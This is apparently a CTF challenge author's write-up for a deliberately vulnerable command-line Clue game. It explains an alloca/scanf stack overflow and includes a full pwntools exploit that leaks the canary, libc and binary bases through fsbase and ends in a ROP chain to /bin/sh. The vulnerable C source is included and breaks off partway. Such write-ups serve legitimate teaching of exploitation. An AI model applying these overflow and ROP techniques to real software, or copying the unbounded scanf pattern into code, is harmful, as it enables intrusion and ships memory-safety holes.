This challenge is a command line version of the Clue board game.

## Protections


## Program Overview

For this write up I'll be referencing the source code instead of decompiled code since it's easier.

The program contains several data types:



A linked list struct that is filled with nodes will be the basis of how the rooms, items, and characters are laid out in memory. A room struct contains the data of a room.

Initially, the program will have 9 rooms in a 3x3 shape and place the player in a random room. Items and charactes are distributed around the rooms, placing only up to 1 item/character per room. After this, a random character, room, and item are chosen to be the correct answers.

```c
char *answer_room = room_names[rand() % 9];
char *answer_item = item_names[rand() % 6];
char *answer_character = character_names[rand() % 5];

current_room = &r[rand() % 3][rand() % 3];
struct List player_inventory = {0};
```

This is an example of what is printed the first time the program is run. In this case, the user is in the top left room named worcester since they can only go down or left, the `wrench` is in the room, and `Scarlet` is in the room.



Users can move in the four cardinal directions. If there is no room in that direction, they must choose another direction. The user can pick up items from rooms, drop items into rooms, view their inventory, view the room, and make a guess.



## Vulnerability

The intended vulnerability is a buffer overflow via a bad scanf call into the input variable:

```c
char *input = alloca(256);
printf("Welcome to Clue! Type \"help\" for a list of commands!\n");
print_room(current_room);
while (1) {
    scanf("%s", input); <---------------- BAD
    fgetc(stdin);
    if (!strcmp(input, "help")) {
        printf("List of commands: \n");
        printf("clue (character) (item): choose a character, an item in your inventory or room, and the current room as your guess\n");
```

Actually, this program exclusively takes input via scanf, so any one of them that stores the result into the input variable would be a valid overflow. This program has full protections which means the compiler will automatically move character buffers next to the canary so as to not affect any other local vairables on the stack and immediately crash on function exit if there is an overflow. This works for normal buffers declared like:

```c
char input [256] = {0}
```

But it doesn't work for other kinds of buffers. One way of doing this is with the alloca function which is used to dynamically allocate memory on the stack rather than the heap. It basically tells the compiler to make a buffer right here on the stack no matter what which bypasses the local variable reordering protection. Another way of bypassing this is creating a struct like:

```c
struct {
	unsigned int my_num;
	char my_buffer [256];
};
```

The compiler will not reorder this since the buffer is in a struct and this still allows for overflowing struct vairables and/or local vairables.

The intended solution was to leak the canary, a stack address, the base address of the binary, and the base address of libc to then overflow a local variable to then overflow the stack up until the return address and replace it with a ropchain. 

The scanf call is taking in no length modifier so it allows a user to write input onto the stack. The input buffer has been defined in such a way that the buffer is always at the bottom of the stack, allowing the user to overwrite all local variables.

The first thing was leaking a stack address. This is done by overflowing up until the last byte of the `current_room` variable to get it to point to a stack address instead of the room struct. This step alone is tricky since scanf automatically appends a null byte at the end of the buffer, meaning that the last byte of `current_room` would be a NULL byte and that the new address it pointed to would need to be one that could leak an address. Testing this, it turned out to be a 1/10 chance of occuring since stack addresses and offsets always change with each run.

**Before Overwrite**



**After Overwrite**



As seen in the above pictures, the LSB at `$rsp - 0x3c0` got overwritten from `0x20` to `0x00`, and it still is pointing to a valid stack address like before.

## Stack Leak
From here, there is a command called room that will print out the name of the room you are currently in. I actually added this to make the challenge easier otherwise it would've taken too long to solve due to the randomness of addresses on the stack and having them line up correntcly each time. The reason is because without the room command, the look command would need to be used which would print out the room name, and each of the rooms it connects to. Printing out the stack address with this command required the addresses of each room in each direction to be valid meaning that the addresses needed to have a printable room name and if not, it would crash. This was so hard to control that I had to add the room command which only prints the room name. 

Since `current_room` is now slightly offset from before, printing the stack leak meant that the new address `current_room` pointed to needed to have a stack address at the 5th field or at an offset of +0x28. 

Getting this stack address is importatnt since now we have a rough idea of where on the stack `current_room` points to. But for the next step, you need to figure exactly where on the stack you are because the next step would be to print out the address of fsbase. This is easily done by overwriting `current_room` with its own address `- 0x8` up until you reach a part in the stack that is at the same location/offset each time. In my case, I kept subtracting up until the room name was `'Peacock'` since the global pointers to the character names are always below the new `current_room` address after the LSB overwrite and are always in the same order.



```python
# increment current_room by -0x8 until we reach the string Peacock
# once we hit Peacock, we know exactly where we are on the stack compared to everything else in the stack frame
try:
    while stack_val != b'Peacock':

        payload += p64(stack_peek + offset)     # current_room
        send_payload(payload)

        stack_val = read_room_name()

        offset -= 8
        payload = payload[:-8:]

except EOFError:
    p.close()
    continue
```

## Leaking fsbase
Once the room name was 'Peacock', that meant that the actual `current_room` pointer was the address of `'Peacock' - 0x28` which would be `'Scarlet'`. Now that we know where on the stack we are, we can now leak `fsbase`. Looking at address `$rsp - 0x2f8` will show a pointer chain of pink addresses which are addresses in read/write only pages which is where `fsbase` lies in memory. Printing out `fsbase` and comparing it to the third pointer in the chain shows that it's at a constant offset of `0x1020` each time:



Using this information, we can just set `current_room->name` a few stack addresses higher to that initial chain pointer and dereference it until we get the third pointer and then subtract `0x1020` to get `fsbase`. Using the third pointer in the chain is crucial since the first two pointers will NOT be at a constant offset each time and you cannot reliably leak `fsbase`.

```python
# once we know where we are on the stack, set current_room->name to be the stack address of the pointer to the page fsbase is in
offset -= 8 * 4

payload += p64(stack_peek + offset)
send_payload(payload)

addr_in_fsbase_page = int.from_bytes(read_room_name(), 'little') #- 0x38f10

# print what that pointer points to, a closer and more reliable way of getting fsbase
offset -= 8 * 24

payload = replace_last_addr(payload, stack_peek + offset)
payload += p64(addr_in_fsbase_page)

send_payload(payload)

fsbase = int.from_bytes(read_room_name(), 'little') + 0x1020

if len(hex(fsbase)) != 14:
    p.close()
    continue

print("[+] fsbase:      ", hex(fsbase))
```

## Leaking Canary, Libc Base, and Binary Base
After leaking `fsbase`, the canary and libc base are easy to leak. The `canary` is always `+0x28` bytes away from `fsbase` on x86_64 and discompilers like Ghidra even show it. 



In this case, `current_room->name` needs to be `fsbase + 0x29` so that we avoid the null byte so that the `canary` is actually printed and then append the NULL byte afterwards. This part can also get tricky since the `canary` could also have a null byte as one of the other 7 bytes and the `canary` wouldn't fully print. The `canary` can also contain a newline (`0xa`), tab (`0x9`), or space (`0x20`) which would also cause the `canary` to not print correctly due to how printing with printf works. Initially, I tried getting `current_room->name` to point to the `canary + 1` to print everything except the null byte for some reason I couldn't get it to work which caused me to find this `fsbase` solution instead.



And the base address of libc is also at a constant address from fsbase of 0x1f3540:



```python
# start of libc is fixed address away from fsbase, calculate libc base
libc.address = fsbase - 0x1f3540
print('[+] libc base:   ', hex(libc.address))

# set current_room->name to point to the stack variable below current_room
# set current_room->name = fsbase + 0x29 to print out the canary and avoid canary null byte
payload = payload[:-8]
payload = replace_last_addr(payload, stack_peek + offset)
payload += p64(fsbase + 0x29)
send_payload(payload)

p.recvuntil(b'Room name: ')
canary = int.from_bytes(b'\x00' + p.recvline()[:7:], 'little')

# this usually occurs when the canary has a null byte in the rest of its 7 bytes
if len(hex(canary)) != 18 or contains_whitespace_byte(canary):
    p.close()
    continue

print("[+] Canary:      ", hex(canary))
```

And then from here, getting the base address of the binary is trivial since it's at a constant offset from `fsbase`. 

## Ovwriting the Answers
The next part I got a little creative but I'm sure there are other ways of getting the same result. You need to solve the game in order for main to return to trigger the ropchain as I purposely did not add a way to exit the game and exit the program gracefully. Since the room that is guessed will always be the current room your player is in, `current_room` needs to be set to the address of the correct room on the stack. 

The addresses of the strings of the correct room, character, and item are near the `current_room` and `player_inventory` variables on the stack:



Since I know the base address of the program, I can overwrite these to be whatever answer I want, but that still requires the player to be in the right room, with the item in the room or `player_inventory`. I printed stack memory until I found a room that contains both a character and an item. This is key since I wouldn't need to move any items around and all I would need to do is get the room name and set it as the answer when I overwrite.



This would be an example, the name of the room is 'worcester' and it contains the character `'Mustard'` and the item `'ginormous_purple_candlestick_of_doom'`. I would set `current_room` to point to that first address, and overwrite the correct room, character, and item to be the ones in this room instead which is easy since the names of characters, rooms, and items are globals vairables and I already have the base address of the binary.

And just for fun, I leaked a heap address and set `player_inventory` to the heap address of the item I'm choosing to be the correct one just in case it didn't work.

Lastly, we just find a ropchain in the provided glibc binary and then craft a payload that solves the clue while also overwrites every single local vairable on the stack up until the return address and executing the ropchain. 

## Conclusion and Some Cheese
This was actually my first time making a CTF challenge and there is an unintended solution which is much better and easier than mine that involves overwriting the address of the input variable to allow arbitrary reading/writing that for some reason I couldnt catch. A player DMed me their solution showing they were able to solve it without even needing the canary. The only similar things about our solves were the LSB null byte overwrite at the start, from there it just deviated. I guess I just got caught up in trying to get the intended solution that I missed the other ones which happens sometimes in pwn challenges.

As a final note, leaking fsbase is acutally not a very good thing to do for a challenge since it can change on different distros and distro versions which is why I provided the Dockerfile. Running the same binary on a different Ubuntu version caused the fsbase pointer chain to no longer be present on the stack which, to my knowledge, made the challenge impossible but I'm glad there are other solutions so this challenge wasn't a complete disaster. 

## Exploit Output


## Challenge Files
The challenge files can be found here under /pwn/clue:


## Exploit Code

```python
from pwn import *

def contains_whitespace_byte(val):
        b = val.to_bytes((val.bit_length() + 7) // 8, 'little')
        return any(byte in b for byte in (0x20, 0x0a, 0x09))

def contains_whitespace_byte_excl_lsb(val):
        b = val.to_bytes(8, 'little')
        b_to_check = b[2:]
        return any(byte in b_to_check for byte in (0x20, 0x0a, 0x09))

def pack_room(n, e, s, w, name, items, characters):
        return struct.pack('<QQQQQQQ', n, e, s, w, name, items, characters)

def replace_last_addr(payload, addr):
        return payload[:-8] + p64(addr)

def read_room_name():
        p.recvuntil(b'Room name: ')
        return p.recvline()[:-1]

def send_payload(payload):
        p.sendline(payload + b'\nroom\n')

#context.clear(arch='amd64', terminal=['tmux', 'splitw', '-fh'], binary=ELF('./clue_inventory_gcc9'), aslr=True)
context.clear(arch='amd64', terminal=['tmux', 'splitw', '-fh'], binary=ELF('./clue'), aslr=True)

elf = context.binary
libc = elf.libc

gdb1 = '''b *main+2843
c
'''

gdb2 = '''b 265
c
b *print_list+56
c
'''

gdb3 = '''b *main+5547
'''

buf_static = b'A' * 32 * 8
stack_static = b'B' * 9 * 8

items = [b'dagger', b'pipe', b'wrench', b'revolver', b'rope', b'', b'(null)', b'hall', b'ginormous_purple_candlestick_of_doom', b'kitchen', b'study', b'conservatory', b'lounge', b'library', b'billiards', b'White', b'ballroom', b'worcester', b'Peacock', b'\x10']

item_locs = {'ginormous_purple_candlestick_of_doom': 0x30d8, 'dagger': 0x30fd, 'pipe': 0x3104, 'revolver': 0x3109, 'rope': 0x3112, 'wrench': 0x3117}
char_locs = {'Scarlet': 0x311e, 'Mustard': 0x3126, 'White': 0x312e, 'Plum': 0x3134, 'Peacock': 0x3139}
room_locs = {'kitchen': 0x3088, 'ballroom': 0x3090, 'conservatory': 0x3099, 'worcester': 0x30a6, 'billiards': 0x30b0, 'library': 0x30ba, 'lounge': 0x30c2, 'hall': 0x30c9, 'study': 0x30ce}

while True:

        payload  = buf_static + stack_static
        payload += p64(0x0)                             # player_inventory

        #p = process(context.binary.path)
        p = gdb.debug(context.binary.path, gdbscript=gdb1)

        # overwrite LSB of current_room to get current_room->name = stack address
        p.recvuntil(b'Characters:')

        send_payload(payload)

        stack_peek = read_room_name()

        if stack_peek in items or not hex(int.from_bytes(stack_peek, 'little')).startswith('0x7f'):
                #print('Stack:', stack_peek)
                p.close()
                continue

        stack_peek = int.from_bytes(stack_peek, 'little')
        print('[+] Stack Peek:  ', hex(stack_peek))

        #gdb.attach(p, gdbscript=gdb1)

        offset = 0
        stack_val = b''

        # increment current_room by -0x8 until we reach the string Peacock
        # once we hit Peacock, we know exactly where we are on the stack compared to everything else in the stack frame
        try:

                while stack_val != b'Peacock':

                        payload += p64(stack_peek + offset)     # current_room
                        send_payload(payload)

                        stack_val = read_room_name()

                        offset -= 8
                        payload = payload[:-8:]

        except EOFError:
                p.close()
                continue

        # once we know where we are on the stack, set current_room->name to be the stack address of the pointer to the page fsbase is in
        offset -= 8 * 4

        payload += p64(stack_peek + offset)
        send_payload(payload)

        addr_in_fsbase_page = int.from_bytes(read_room_name(), 'little') #- 0x38f10

        # print what that pointer points to, a closer and more reliable way of getting fsbase
        offset -= 8 * 24

        payload = replace_last_addr(payload, stack_peek + offset)
        payload += p64(addr_in_fsbase_page)

        send_payload(payload)

        fsbase = int.from_bytes(read_room_name(), 'little') + 0x1020

        if len(hex(fsbase)) != 14:
                p.close()
                continue

        print("[+] fsbase:      ", hex(fsbase))

        # start of libc is fixed address away from fsbase, calculate libc base
        libc.address = fsbase - 0x1f3540
        print('[+] libc base:   ', hex(libc.address))

        # set current_room->name to point to the stack variable below current_room
        # set current_room->name = fsbase + 0x29 to print out the canary and avoid canary null byte
        payload = payload[:-8]
        payload = replace_last_addr(payload, stack_peek + offset)
        payload += p64(fsbase + 0x29)
        send_payload(payload)

        p.recvuntil(b'Room name: ')
        canary = int.from_bytes(b'\x00' + p.recvline()[:7:], 'little')

        # this usually occurs when the canary has a null byte in the rest of its 7 bytes
        if len(hex(canary)) != 18 or contains_whitespace_byte(canary):
                p.close()
                continue

        print("[+] Canary:      ", hex(canary))

        # set current_room->name = stack_address of global variable and get binary base
        offset += 8 * 3

        payload = replace_last_addr(payload, stack_peek + offset + 0x150)
        send_payload(payload)

        binary_base = (int.from_bytes(read_room_name(), 'little') & 0xFFFFFFFFFFFFF000) - 0x3000

        if contains_whitespace_byte_excl_lsb(binary_base):
                #print("CONTAINS WHITESPACE")
                #print(hex(binary_base))
                p.close()
                continue

        #if contains_whitespace_byte(binary_base + 0x3000) or contains_whitespace_byte(binary_base + 0x3100):
        #       print("BE CAREFUL, GLOBAL VARS HAVE WHITESPACE")

        print('[+] Binary base:', hex(binary_base))

        payload = payload[:-8]
        room_count = 0

        found_heap = 0
        heap_contains_whitespace = 0

        # find a room with both a character and an item in it
        while True:

                if heap_contains_whitespace:
                        break

                payload = replace_last_addr(payload, stack_peek + offset + 0x1b8)
                send_payload(payload)

                heap_peek = p.recvline()[-7:-1]

                if heap_peek == b'(null)':
                        offset += 0x38
                        room_count += 1
                        continue

                found_heap = 1

                heap_peek = int.from_bytes(heap_peek, 'little') #& 0xFFFFFFFFFFFFF000

                if found_heap and contains_whitespace_byte_excl_lsb(heap_peek):
                        #print("HEAP CONTAINS WHITESPACE")
                        #print("heap peek:", hex(heap_peek))
                        found_heap = 0
                        heap_contains_whitespace = 1

                payload = replace_last_addr(payload, stack_peek + offset + 0x1c0)
                send_payload(payload)

                p.recvuntil(b'Room name: ')
                has_char = p.recvline()[-7:-1]

                # if theres no character in the room or the address we sent contains a newline character
                if has_char == b'(null)' or hex(int.from_bytes(has_char, 'little')).startswith('0x7f'):
                        offset += 0x38
                        room_count += 1
                        continue

                has_char = int.from_bytes(has_char, 'little')

                # find the name of the chosen room
                if contains_whitespace_byte(stack_peek + offset + 0x1b0):
                        offset += 0x38
                        room_count += 1
                        continue

                payload = replace_last_addr(payload, stack_peek + offset + 0x1b0)
                send_payload(payload)

                room = read_room_name().decode()
                break

        # if the heap address contains whitespace or we didnt find a valid room
        if heap_contains_whitespace or room_count >= 9:
                p.close()
                continue

        print('[+] Heap peek:   ', heap_peek)
        print('[+] Room:        ', room)

        # find the item name in the chosen room
        payload = replace_last_addr(payload, heap_peek - 0x40)  # room item
        send_payload(payload)

        item = read_room_name().decode()
        print("[+] Item:        ", item)

        # find the character name in the chosen room
        payload = replace_last_addr(payload, has_char - 0x40)
        send_payload(payload)

        character = read_room_name().decode()
        print("[+] Character:   ", character)

        # gadgets
        pop_rax_ret = p64(libc.address + 0x36174)
        pop_rdi_ret = p64(libc.address + 0x23b6a)
        pop_rsi_ret = p64(libc.address + 0x2601f)
        binsh = p64(next(libc.search(b'/bin/sh\x00')))
        syscall = p64(libc.address + 0x630a9)

        payload = payload[:-16:]
        payload += p64(heap_peek - 0x20)                                # inventory
        payload += p64(stack_peek + offset + 0x1b0)                     # current_room
        payload += p64(fsbase)                                          # chosen_item
        payload += p64(binary_base + room_locs[room])                   # answer_room = room
        payload += p64(binary_base + item_locs[item])                   # answer_item = room item
        payload += p64(binary_base + char_locs[character])              # answer_char = room character
        payload += p64(stack_peek + offset - (room_count * 0x38) - 0x150)       # input
        payload += p64(heap_peek)                                       # character
        payload += p64(0x0)                                             # right_room
        payload += p64(0x0)                                             # right_character
        payload += p64(0x0)                                             # right_item
        payload += p64(0x0)                                             # result_1
        payload += p64(0x0)                                             # result
        payload += pack_room(0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0)         # default_room
        payload += p64(0x0)                                             # padding for alignment
        payload += p64(0x700000000)                                     # positions[0]-[1]
        payload += p64(0x100000008)                                     # positions[2]-[3]
        payload += p64(0x300000002)                                     # positions[4]-[5]
        payload += p64(0x600000005)                                     # positions[6]-[7]
        payload += p64(0x7fa900004)                                     # positions[8] + padding
        payload += p64(fsbase)                                          # padding
        payload += p64(binary_base + char_locs['Scarlet'])              # character_names[0]
        payload += p64(binary_base + char_locs['Mustard'])              # character_names[1]
        payload += p64(binary_base + char_locs['White'])                # character_names[2]
        payload += p64(binary_base + char_locs['Plum'])                 # character_names[3]
        payload += p64(binary_base + char_locs['Peacock'])              # character_names[4]
        payload += p64(0x0)                                             # character_names[5]
        payload += p64(stack_peek + offset + 0x1b0)                     # character_positions[0]
        payload += p64(stack_peek + offset + 0x1b0)                     # character_positions[1]
        payload += p64(stack_peek + offset + 0x1b0)                     # character_positions[2]
        payload += p64(stack_peek + offset + 0x1b0)                     # character_positions[3]
        payload += p64(stack_peek + offset + 0x1b0)                     # character_positions[4]
        payload += p64(0x0)                                             # character_positions[5]
        payload += p64(binary_base + item_locs['ginormous_purple_candlestick_of_doom']) # item_names[0]
        payload += p64(binary_base + item_locs['dagger'])               # item_names[1]
        payload += p64(binary_base + item_locs['pipe'])                 # item_names[2]
        payload += p64(binary_base + item_locs['rope'])                 # item_names[3]
        payload += p64(binary_base + item_locs['rope'])                 # item_names[4]
        payload += p64(binary_base + item_locs['wrench'])               # item_names[5]
        payload += p64(binary_base + room_locs['kitchen'])              # room_names[0]
        payload += p64(binary_base + room_locs['ballroom'])             # room_names[1]
        payload += p64(binary_base + room_locs['conservatory'])         # room_names[2]
        payload += p64(binary_base + room_locs['worcester'])            # room_names[3]
        payload += p64(binary_base + room_locs['billiards'])            # room_names[4]
        payload += p64(binary_base + room_locs['library'])              # room_names[5]
        payload += p64(binary_base + room_locs['lounge'])               # room_names[6]
        payload += p64(binary_base + room_locs['hall'])                 # room_names[7]
        payload += p64(binary_base + room_locs['study'])                # room_names[8]
        payload += p64(0x1)                                             # padding
        payload += pack_room(0x0, 0x0, 0x0, 0x0, binary_base + room_locs[room], heap_peek - 0x20, has_char - 0x20)      # r[0]
        payload += pack_room(0x0, 0x0, 0x0, 0x0, binary_base + room_locs[room], heap_peek - 0x20, has_char - 0x20)      # r[1]
        payload += pack_room(0x0, 0x0, 0x0, 0x0, binary_base + room_locs[room], heap_peek - 0x20, has_char - 0x20)      # r[2]
        payload += pack_room(0x0, 0x0, 0x0, 0x0, binary_base + room_locs[room], heap_peek - 0x20, has_char - 0x20)      # r[3]
        payload += pack_room(0x0, 0x0, 0x0, 0x0, binary_base + room_locs[room], heap_peek - 0x20, has_char - 0x20)      # r[4]
        payload += pack_room(0x0, 0x0, 0x0, 0x0, binary_base + room_locs[room], heap_peek - 0x20, has_char - 0x20)      # r[5]
        payload += pack_room(0x0, 0x0, 0x0, 0x0, binary_base + room_locs[room], heap_peek - 0x20, has_char - 0x20)      # r[6]
        payload += pack_room(0x0, 0x0, 0x0, 0x0, binary_base + room_locs[room], heap_peek - 0x20, has_char - 0x20)      # r[7]
        payload += pack_room(0x0, 0x0, 0x0, 0x0, binary_base + room_locs[room], heap_peek - 0x20, has_char - 0x20)      # r[8]
        payload += p64(canary)                                          # canary
        payload += p64(stack_peek + offset + ((9 - room_count) * 0x38)) # idk
        payload += p64(binary_base + 0x2d60)                            # idk
        payload += p64(0x0)                                             # rbp

        payload += pop_rax_ret                                          # return address
        payload += p64(0x3b)
        payload += pop_rdi_ret
        payload += binsh
        payload += pop_rsi_ret
        payload += p64(0x0)
        payload += syscall

        p.sendline(payload)
        p.sendline(b'clue\n' + character.encode() + b'\n' + item.encode())

        break

p.interactive()
```

## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

#define room_index i % 3][i / 3

struct Node {
    char *item_name;
    struct Node *next;
};

struct List {
    struct Node *start;
};

struct Room {
    struct Room *n, *e, *s, *w;
    char *name;
    struct List items;
    struct List characters;
};

void print_list(struct List *list) {
    struct Node *current = list->start;
    while (current) {
        printf("%s \n", current->item_name);
        current = current->next;
    }
    printf("\n");

}

void print_room_name(struct Room *r) {
        printf("Room name: %s\n", r->name);
}

void print_room(struct Room *r) {
    print_room_name(r);
    printf("N: %s\n", r->n ? r->n->name : "null");
    printf("S: %s\n", r->s ? r->s->name : "null");
    printf("E: %s\n", r->e ? r->e->name : "null");
    printf("W: %s\n", r->w ? r->w->name : "null");
    printf("Items: \n");
    print_list(&r->items);
    printf("Characters: \n");
    print_list(&r->characters);
    printf("\n");

}

char *check_item(struct List *list, char *item_name) {
    struct Node *current = list->start;
    while (current) {
        if (!strcmp(current->item_name, item_name)) {
            return current->item_name;
        }
        current = current->next;
    }
    return 0;
}

char *remove_item(struct List *list, char *item_name) {
    struct Node *current = list->start;
    struct Node *previous = NULL;

    while (current) {
        if (!strcmp(current->item_name, item_name)) {
            char *result = strdup(current->item_name);

            if (previous) {
                previous->next = current->next;
            } else {
                list->start = current->next;
            }

            free(current->item_name);
            free(current);

            return result;
        }
        previous = current;
        current = current->next;
    }
    return NULL;
}

void insert_first(struct List *list, char *item_name) {
    struct Node *node = malloc(sizeof(struct Node));
    if (!node) {
        fprintf(stderr, "Memory allocation failed!\n");
        exit(1);
    }

    node->item_name = strdup(item_name);
    if (!node->item_name) {
        fprintf(stderr, "String allocation failed!\n");
        exit(1);
    }

    node->next = list->start;
    list->start = node;
}

int is_empty(struct List *list) {
    return list->start == 0;
}

void FisherYates(int *elements, int n) {
    int tmp;
    for (int i = n - 1; i > 0; i--) {
        int j = rand() % (i + 1);
        tmp = elements[j];
        elements[j] = elements[i];
        elements[i] = tmp;
    }
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    srand(time(NULL));
    struct Room r[3][3];
    struct Room default_room = {0, 0, 0, 0, 0, {0}, {0}};
    struct Room *current_room;

    for (int i = 0; i < 9; ++i) {
        r[room_index] = default_room;
    }

    for (int i = 1; i < 3; ++i) {
        for (int j = 0; j < 3; ++j) {
            r[i - 1][j].e = &r[i][j];
            r[i][j].w = &r[i - 1][j];
            r[j][i - 1].s = &r[j][i];
            r[j][i].n = &r[j][i - 1];
        }
    }

    int positions[9] = {0, 1, 2, 3, 4, 5, 6, 7, 8};
    struct Room *character_position[6];
    char *room_names[9] = {"kitchen", "ballroom", "conservatory", "worcester", "billiards", "library", "lounge", "hall", "study"};
    char *item_names[6] = {"ginormous_purple_candlestick_of_doom", "dagger", "pipe", "revolver", "rope", "wrench"};
    char *character_names[5] = {"Scarlet", "Mustard", "White", "Plum", "Peacock"};

    //shuffle room names
    FisherYates(positions, 9);
    for (int j = 0; j < 6; ++j) {
        int i = positions[j];
        insert_first(&r[room_index].items, item_names[j]);
    }

    FisherYates(positions, 9);
    for (int i = 0; i < 9; ++i) {
        r[room_index].name = room_names[positions[i]];
    }

    FisherYates(positions, 9);
    for (int j = 0; j < 5; ++j) {
        int i = positions[j];
        insert_first(&r[room_index].characters, character_names[j]);
        character_position[j] = &r[room_index];
    }

    char *answer_room = room_names[rand() % 9];
    char *answer_item = item_names[rand() % 6];
    char *answer_character = character_names[rand() % 5];

    current_room = &r[rand() % 3][rand() % 3];
    struct List player_inventory = {0};

    char *input = alloca(256);
    printf("Welcome to Clue! Type \"help\" for a list of commands!\n");
    print_room(current_room);
    while (1) {
        scanf("%s", input);
        fgetc(stdin);
        if (!strcmp(input, "help")) {
            printf("List of commands: \n");
            printf("clue (character) (item): choose a character, an item in your inventory or room, and the current room as your guess\n");
            printf("drop (item): drop item from inventory to room \n");
            printf("go (north|south|east|west): moves to room in the given direction \n");
            printf("help: list all commands \n");
            printf("inventory: show player's inventory \n");
            printf("list: list all rooms, items and characters name \n");
